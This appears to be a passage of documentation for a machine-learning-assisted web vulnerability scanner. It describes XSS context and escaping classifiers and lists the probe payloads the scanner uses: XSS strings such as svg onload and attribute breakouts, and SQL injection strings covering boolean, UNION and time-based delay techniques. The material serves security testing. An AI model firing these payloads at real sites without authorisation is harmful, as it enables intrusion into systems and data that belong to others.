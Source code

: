 **XSS Context Classifier:**
```python
# ML models for XSS context detection
- xss_context_model.joblib      # Context classification
- xss_context_vectorizer.joblib # TF-IDF vectorizer
- xss_escaping_model.joblib     # Escaping classification
- xss_escaping_vectorizer.joblib # TF-IDF vectorizer
```

**Context Types:**
- `html_body` - Direct HTML content
- `attr` - HTML attribute values
- `js_string` - JavaScript string literals
- `js_comment` - JavaScript comments

**Escaping Types:**
- `raw` - No escaping applied
- `html_escaped` - HTML entities encoded
- `js_escaped` - JavaScript escaping applied

**Payload Categories:**
```python
XSS_TAG = [
    "<svg onload=alert(1)>",      # Most reliable
    "<img src=x onerror=alert(1)>", # Classic
    "<script>alert(1)</script>"    # Traditional
]

XSS_ATTR = [
    "\" onmouseover=\"alert(1)\" x=\"",  # Attribute breakout
    "' onfocus='alert(1)' x='",          # Single quote variant
]

XSS_JS = [
    "';alert(1);//",              # JS string termination
    "\";alert(1);//",             # Double quote variant
]
```

### 2. SQL Injection (SQLi)

**Detection Methods:**
- **Boolean-based**: OR conditions, tautologies
- **Union-based**: UNION SELECT statements
- **Time-based**: SLEEP/WAITFOR DELAY functions
- **Error-based**: Syntax errors and type coercion

**SQLi Payload Categories:**
```python
SQLI_BOOLEAN = [
    "' OR '1'='1' --",
    "\" OR 1=1 --",
    "') OR ('1'='1"
]

SQLI_UNION = [
    "' UNION SELECT NULL-- ",
    "' UNION SELECT NULL,NULL-- "
]

SQLI_TIME = [
    "1 AND SLEEP(3)--",           # MySQL
    "1;SELECT pg_sleep(3)--",     # PostgreSQL
    "';WAITFOR DELAY '0:0:3'--"   # SQL Server
]
```
